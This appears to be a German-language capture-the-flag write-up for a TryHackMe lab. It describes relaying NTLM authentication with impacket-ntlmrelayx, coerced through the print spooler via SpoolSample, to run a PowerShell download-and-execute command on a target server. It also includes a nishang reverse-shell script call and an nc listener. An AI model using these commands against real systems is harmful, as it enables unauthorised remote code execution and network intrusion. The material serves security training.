 ### Mit den Hashes kam ich jetzt nicht wirklich weiter. Aber da ich Code Execution auf dem THMSERVER1 habe, kann ich eine Reverse Shell triggern.


 1. Download des Rshell Scripts
    >https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

 2. Folgendes am Ende des Scripts einfügen
    >Invoke-PowerShellTcp -Reverse -IPAddress <MEINE IP> -Port 4444

 3. Das Script zum Download bereitstellen
    >python3 -m http.server 80

 4. ntlmrelayx den Befehl mitgeben, dass sobald ich den Druckerspoolerdienst triggere, er folgenden Befehl ausführen soll
      > impacket-ntlmrelayx -smb2support -t smb://10.200.125.201 -c "powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.50.122.221:80/Invoke-PowerShellTcp.ps1')" -debug
      ---
      >Der Befehl macht folgendes: Powershell wird mit -c aufgerufen, also wird der nachfolgende Befehl als Argument ausgeführt. Der Befehl selbst verwendet "new-object net.webclient" um eine Instanz der .NET Klasse "WebClient" zu erstellen, die dafür genutzt wird, Webanforderungen durchzuführen. In diesem Fall wird der Inhalts einer Datei (invoke-powershelltcp.ps1) heruntergeladen und als Zeichenfolge zurückgegeben.
      ----


 5. Wir starten einen Listener auf Port 4444
      > nc -lvnp 4444

 6. Wir triggern auf THMWRK1 den Druckerspoolerdienst 
    > c:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.122.221


![alt text](images/image28.png)
